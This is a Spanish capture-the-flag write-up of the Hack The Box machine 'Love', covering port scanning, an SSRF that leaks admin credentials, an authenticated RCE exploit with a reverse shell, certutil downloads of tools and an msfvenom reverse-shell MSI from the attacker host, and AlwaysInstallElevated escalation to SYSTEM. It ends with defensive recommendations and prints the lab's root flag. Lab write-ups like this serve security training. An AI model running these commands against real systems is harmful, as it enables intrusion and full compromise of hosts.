# Love — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Windows  
**Autor de la máquina:** pwnmeow  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · Enumeración web · wfuzz · SSRF · Voting System · RCE autenticado · searchsploit · AlwaysInstallElevated · msfvenom · MSI

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — Voting System](#3-acceso-inicial--voting-system)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.X.X
```



Salida obtenida:

```text
64 bytes from 10.129.X.X: icmp_seq=1 ttl=127 time=35.3 ms
```

> 💡 El parámetro `-c 1` envía un único paquete ICMP. Solo necesitamos verificar conectividad. El valor `TTL=127` suele indicar que estamos frente a una máquina **Windows** (los sistemas Linux responden con `TTL=64`).

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.X.X -oN allPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad |
| `--min-rate 5000` | Fuerza velocidad mínima de paquetes |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
80/tcp     open  http
135/tcp    open  msrpc
139/tcp    open  netbios-ssn
443/tcp    open  https
445/tcp    open  microsoft-ds
3306/tcp   open  mysql
5000/tcp   open  http
5040/tcp   open  unknown
5985/tcp   open  wsman
7680/tcp   open  pando-pub
47001/tcp  open  winrm
```

> 💡 La superficie de ataque es amplia: dos servidores web (`80` y `443`), un tercero en el `5000`, una base de datos **MySQL** expuesta y los servicios típicos de Windows (SMB, RPC, WinRM). Los puertos web suelen ser el camino más rápido en una máquina de dificultad fácil.

---

### Enumeración detallada

Una vez identificados los puertos abiertos, lanzamos un escaneo de versiones y scripts NSE sobre ellos.

```bash
nmap -sCV -p80,135,139,443,445,3306,5000,5040,5985,7680 10.129.X.X -oN targeted
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sC` | Ejecuta los scripts NSE por defecto |
| `-sV` | Detección de versiones de cada servicio |
| `-p` | Limita el escaneo a los puertos ya descubiertos |

Salida relevante:

```text
80/tcp   open  http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
443/tcp  open  ssl/http Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp
443/tcp  ... Subject Alternative Name: DNS:love.htb, DNS:staging.love.htb
3306/tcp open  mysql    MariaDB (unauthorized)
5000/tcp open  http     Apache httpd 2.4.46
|_http-title: 403 Forbidden
```

> 💡 **El dato clave está en el certificado SSL del puerto 443.** El campo `commonName` y el `Subject Alternative Name` revelan dos nombres de dominio internos: `love.htb` y `staging.love.htb`. Esos *virtual hosts* solo serán accesibles si los resolvemos manualmente.

---

## 2. Enumeración del servicio web

Accedemos desde el navegador al puerto `80`.

```text
http://10.129.X.X
```

Encontramos una aplicación llamada **Voting System**, un sistema de votaciones escrito en PHP.



El formulario pide un `Voter's ID` y una contraseña. No disponemos de credenciales, así que pasamos a enumerar rutas ocultas.

---

### Fuzzing de directorios

Buscamos directorios y ficheros no enlazados con `wfuzz`.

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirb/common.txt http://10.129.X.X/FUZZ
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-c` | Salida coloreada |
| `--hc=404` | Oculta las respuestas con código `404` |
| `-t 200` | Lanza 200 hilos en paralelo |
| `-w` | Diccionario de palabras a probar |
| `FUZZ` | Marcador donde se inyecta cada palabra |

El fuzzing descubre un directorio interesante: **`/admin`**.

---

### Panel de administración

Navegamos hasta la ruta encontrada:

```text
http://10.129.X.X/admin/
```



Aparece un segundo login, esta vez el **panel administrativo** del Voting System. Igual que antes, necesitamos credenciales válidas para continuar. Las buscaremos a través del *virtual host* descubierto en el certificado.

---

### Resolución del virtual host

Para que el navegador pueda acceder a `staging.love.htb` debemos asociar ese nombre a la IP de la máquina en nuestro fichero `/etc/hosts`.

```bash
echo "10.129.X.X    staging.love.htb" | sudo tee -a /etc/hosts
```



> 💡 Un **virtual host** permite que un único servidor web aloje varios sitios distintos. El servidor decide qué contenido servir según la cabecera `Host` de la petición HTTP. Si pedimos la IP directamente vemos el Voting System, pero si pedimos `staging.love.htb` el servidor nos entrega otra aplicación completamente diferente.

---

## 3. Acceso inicial — Voting System

Con el nombre ya resuelto, accedemos al *virtual host* de staging:

```text
http://staging.love.htb
```



Encontramos una aplicación distinta: **Free File Scanner**. Su funcionalidad principal está en la sección *Demo* (`beta.php`), que ofrece un campo para introducir la **URL de un fichero** y "escanearlo".

---

### Identificación del SSRF

Que el servidor acepte una **URL arbitraria** y vaya a buscar ese recurso por nosotros es la señal inequívoca de un **SSRF** (*Server-Side Request Forgery*).

> 💡 En un **SSRF** logramos que el servidor realice peticiones HTTP en nuestro nombre. Esto es peligroso porque el servidor puede alcanzar recursos que para nosotros son inaccesibles desde fuera: servicios atados a `localhost`, paneles internos o metadatos de la red. Recordemos que en el escaneo el puerto `5000` devolvía un `403 Forbidden` — no podíamos verlo nosotros, **pero el servidor sí puede**.

Apuntamos el escáner contra el propio servidor, al servicio interno del puerto `5000`:

```text
http://127.0.0.1:5000
```



El servidor nos devuelve el contenido de ese servicio interno: un **Password Dashboard** que filtra las credenciales del panel de administración del Voting System.

```text
Voting system Administration
Vote Admin Creds admin: @LoveIsInTheAir!!!!
```

> 💡 El SSRF nos ha permitido leer un recurso confidencial que la aplicación creía protegido por estar accesible solo desde `localhost`. **Confiar en que un servicio "no es accesible desde fuera" nunca es una medida de seguridad real.**

Credenciales obtenidas:

| Campo | Valor |
|---|---|
| Usuario | `admin` |
| Contraseña | `@LoveIsInTheAir!!!!` |

---

## 4. Obtención de shell

Con las credenciales podemos autenticarnos en `http://10.129.X.X/admin/`. Antes de explotar nada manualmente, comprobamos si el Voting System tiene vulnerabilidades públicas conocidas.

```bash
searchsploit voting system
```



`searchsploit` consulta la base de datos local de **Exploit-DB**. Entre los resultados aparece justo lo que necesitamos:

```text
Online Voting System 1.0 - Remote Code Execution (RCE) (Authenticated)
```

> 💡 La palabra **Authenticated** indica que el exploit necesita credenciales válidas para funcionar — exactamente las que acabamos de robar mediante el SSRF. La cadena de ataque encaja perfectamente.

---

### Preparación del exploit

Copiamos el exploit a nuestro directorio de trabajo y lo abrimos para editarlo:

```bash
searchsploit -m php/webapps/49445.py
```

El script trae una sección de configuración al principio que debemos rellenar con nuestros datos.



```python
# --- Edit your settings here ----
IP       = "10.129.X.X"           # Website's URL
USERNAME = "admin"                # Auth username
PASSWORD = "@LoveIsInTheAir!!!!"  # Auth Password
REV_IP   = "10.10.14.200"         # Reverse shell IP
REV_PORT = "443"                  # Reverse port
```

### Explicación de la configuración

| Variable | Función |
|---|---|
| `IP` | Dirección de la máquina víctima |
| `USERNAME` / `PASSWORD` | Credenciales del panel obtenidas vía SSRF |
| `REV_IP` | IP de **nuestra** máquina atacante |
| `REV_PORT` | Puerto donde esperaremos la conexión |

Internamente el exploit inicia sesión, sube un webshell PHP (`images/shell.php`) abusando de la subida de imágenes del módulo `voters_add.php` y lo invoca para lanzar la *reverse shell*.

---

### Listener y ejecución

Antes de ejecutar el exploit, ponemos un *listener* con Netcat a la escucha en el puerto configurado.

```bash
nc -lvnp 443
```



### Explicación

| Parámetro | Función |
|---|---|
| `-l` | Modo escucha |
| `-v` | Salida detallada (verbose) |
| `-n` | No resuelve DNS |
| `-p 443` | Puerto de escucha |

Con el listener preparado, ejecutamos el exploit:

```bash
python3 49445.py
```

Inmediatamente recibimos la conexión entrante en nuestro listener:



```text
connect to [10.10.14.200] from (UNKNOWN) [10.129.X.X] 51650
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
C:\xampp\htdocs\omrs\images>
```

> 💡 Hemos conseguido ejecución de comandos como el usuario que corre el servicio web (`phoebe`). La ruta `C:\xampp\htdocs\omrs\` confirma que estamos dentro del *document root* de XAMPP. La **flag de usuario** se encuentra en el escritorio de dicho usuario:
>
> ```cmd
> type C:\Users\Phoebe\Desktop\user.txt
> ```

✅ Acceso inicial conseguido.

---

## 5. Post-explotación y flags

Tenemos una shell, pero como usuario sin privilegios. El objetivo ahora es **escalar a `NT AUTHORITY\SYSTEM`**.

### Enumeración con WinPEAS

Para automatizar la búsqueda de rutas de escalada usaremos **WinPEAS**, que audita el sistema en busca de configuraciones débiles. Primero localizamos el binario en nuestra máquina atacante.

```bash
locate winpeas
```



Levantamos un servidor HTTP en el directorio donde está `winPEASany.exe` para servir el fichero a la víctima.

```bash
python3 -m http.server 8080
```



> 💡 `python3 -m http.server` convierte cualquier carpeta en un servidor web instantáneo. Es la forma más cómoda de transferir herramientas a una máquina comprometida sin necesitar SMB ni FTP.

Desde la shell de la víctima descargamos el binario con `certutil`, una utilidad nativa de Windows que, además de gestionar certificados, permite descargar ficheros.

```cmd
cd C:\Temp
certutil.exe -f -urlcache -split http://10.10.14.200:8080/winPEASany.exe winPEASany.exe
```



### Explicación de `certutil`

| Parámetro | Función |
|---|---|
| `-f` | Fuerza la sobrescritura del fichero |
| `-urlcache` | Trabaja con la caché de URLs |
| `-split` | Descarga y separa el contenido en disco |

> 💡 `certutil` es un **LOLBin** (*Living Off the Land Binary*): una herramienta legítima del sistema reutilizada con fines ofensivos. Al ser un binario firmado por Microsoft, muchas soluciones de seguridad no lo bloquean.

---

### Detección de AlwaysInstallElevated

Ejecutamos WinPEAS y revisamos su salida:

```cmd
winPEASany.exe
```



WinPEAS marca en rojo un hallazgo crítico:

```text
Checking AlwaysInstallElevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```



> 💡 **`AlwaysInstallElevated`** es una directiva de Windows que, cuando está activada, hace que **cualquier paquete `.msi` se instale con privilegios de `SYSTEM`**, sin importar qué usuario lo lance. Para que sea explotable, la clave debe valer `1` en **ambas** ramas del registro:
>
> ```cmd
> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
> ```
>
> Aquí ambas están a `1`: tenemos vía libre para escalar.

---

### Creación del MSI malicioso

Generamos un paquete `.msi` con una *reverse shell* usando `msfvenom`.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.200 LPORT=444 -a x64 -f msi -o alwe.msi
```


### Explicación del payload

| Parámetro | Función |
|---|---|
| `-p windows/x64/shell_reverse_tcp` | Payload de reverse shell para Windows de 64 bits |
| `LHOST` | IP de la máquina atacante |
| `LPORT` | Puerto de escucha de la nueva shell |
| `-a x64` | Arquitectura de 64 bits |
| `-f msi` | Formato de salida: instalador `.msi` |
| `-o alwe.msi` | Nombre del fichero generado |

El instalador `.msi` se ejecuta en segundo plano con `msiexec`:



```cmd
msiexec /quiet /qn /i C:\Temp\alwe.msi
```

| Parámetro | Función |
|---|---|
| `/quiet` | Instalación silenciosa, sin interacción |
| `/qn` | Sin interfaz gráfica |
| `/i` | Indica instalación del paquete |

---

### Ejecución y escalada a SYSTEM

Ponemos un nuevo listener a la escucha en el puerto `444`:

```bash
nc -lvnp 444
```



Transferimos el `.msi` malicioso a la víctima, de nuevo con `certutil`:

```cmd
certutil.exe -f -urlcache -split http://10.10.14.200:8080/alwe.msi alwe.msi
```



Y finalmente lo ejecutamos:

```cmd
msiexec /quiet /qn /i alwe.msi
```

La shell entrante aterriza en nuestro listener. Comprobamos privilegios:

```cmd
whoami
```



Resultado:

```text
nt authority\system
```

> 💡 `NT AUTHORITY\SYSTEM` es la cuenta más privilegiada de Windows, equivalente a `root` en Linux. Gracias a `AlwaysInstallElevated`, nuestro `.msi` se instaló con privilegios máximos.

✅ Compromiso total de la máquina.

---

### Obtención de la flag de root

Con privilegios máximos, leemos la flag del administrador:

```cmd
cd C:\Users\Administrator\Desktop
type root.txt
```



```text
29764a818ac4ce072076d3337d6d97b4
```

✅ Máquina completada.

---

## 6. Lección aprendida

Esta máquina encadena una serie de fallos muy frecuentes en aplicaciones web y sistemas Windows mal configurados.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| Información sensible en certificado SSL | Puerto 443 | Descubrimiento del virtual host `staging.love.htb` |
| Directorio administrativo predecible | `/admin` | Superficie de ataque adicional |
| SSRF en el File Scanner | `staging.love.htb/beta.php` | Lectura de un servicio interno (puerto 5000) |
| Credenciales expuestas en panel interno | `127.0.0.1:5000` | Acceso administrativo al Voting System |
| Software vulnerable sin parchear | Voting System 1.0 | Ejecución remota de código (RCE) |
| `AlwaysInstallElevated` activado | Registro de Windows | Escalada directa a `NT AUTHORITY\SYSTEM` |

---

## Recomendaciones defensivas

- No incluir nombres de host internos ni dominios de *staging* en certificados públicos.
- Restringir el acceso a paneles administrativos mediante listas blancas de IP o VPN.
- Validar y filtrar las URLs en cualquier funcionalidad que realice peticiones del lado del servidor, bloqueando direcciones internas (`127.0.0.1`, rangos privados).
- No almacenar credenciales en texto plano en servicios accesibles, ni siquiera en `localhost`.
- Mantener el software de terceros actualizado y retirar las aplicaciones de prueba de los entornos productivos.
- Deshabilitar la directiva `AlwaysInstallElevated` (`0` en `HKLM` y `HKCU`).
- Ejecutar los servicios web con cuentas de mínimo privilegio.
- Monitorizar el uso de LOLBins como `certutil` y `msiexec` con orígenes de red sospechosos.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
